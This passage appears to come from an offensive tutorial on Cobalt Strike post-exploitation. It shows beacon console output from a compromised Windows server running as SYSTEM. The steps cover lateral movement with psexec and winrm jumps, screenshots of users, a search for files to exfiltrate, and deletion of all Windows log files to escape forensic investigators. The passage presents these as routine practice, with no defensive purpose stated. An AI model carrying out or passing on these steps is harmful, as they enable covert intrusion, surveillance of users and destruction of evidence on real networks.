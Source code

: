 And we've got a new beacon session! If you view on **Event Logs** Tab

```
<REDACTED> *** initial beacon from СИСТЕМА *@172.16.0.77 (RDPSRV)
```

Thankfully Cobalt Strike can let us automate this by selecting the targets by going through **View** -> **Targets** then we select a windows workstation with that IP address from `crackmapexec` that we've executed previously then press **Right-Click** -> **Jump** -> **psexec64** or **winrm64** or **psexec_psh**. it'll automate the beacon commands for you which is convenient for UX (user experience). So use this everytime when you perform active directory network.

Now here comes the fun part. Once you've kept hopping around the network you have take screenshots in order to understand what's going on like think of it has a quick recon of the target is doing on his computer. If not then we move on to the next phase for data exfilitration to look for files that stands out. Also before you type `exit` and found what you're looking for be sure to clear your trace ahead of time since the forensic units or some tech savvy guy to look for traces and report your C2 server.

```
beacon> screenshot
[*] Tasked beacon to take screenshot
[+] host called home, sent: 199779 bytes
[+] received screenshot from СИСТЕМА (437kb)

beacon> shell del %windir%\*.log /a /s /q /f
[*] Tasked beacon to run: del %windir%\*.log /a /s /q /f
[+] host called home, sent: 61 bytes
[+] received output:
Удален файл - C:\Windows\DirectX.log
Удален файл - C:\Windows\DPINST.LOG
Удален файл - C:\Windows\DtcInstall.log
Удален файл - C:\Windows\lsasetup.log
Удален файл - C:\Windows\PFRO.log
Удален файл - C:\Windows\setupact.log
Удален файл - C:\Windows\setuperr.log
Удален файл - C:\Windows\WindowsUpdate.log
C:\Windows\appcompat\Programs\Amcache.hve.LOG1
..[snip]..

beacon> exit
[*] Tasked beacon to exit
[+] host called home, sent: 8 bytes
[+] beacon exit.
```

Go to **View** -> **Screenshots**

We can see you users ;)

![[screen_a6798773_1106456564.jpg]]


```
beacon> screenshot
[*] Tasked beacon to take screenshot
[+] host called home, sent: 199779 bytes
received screenshot of Program Manager from система (181kb)
```
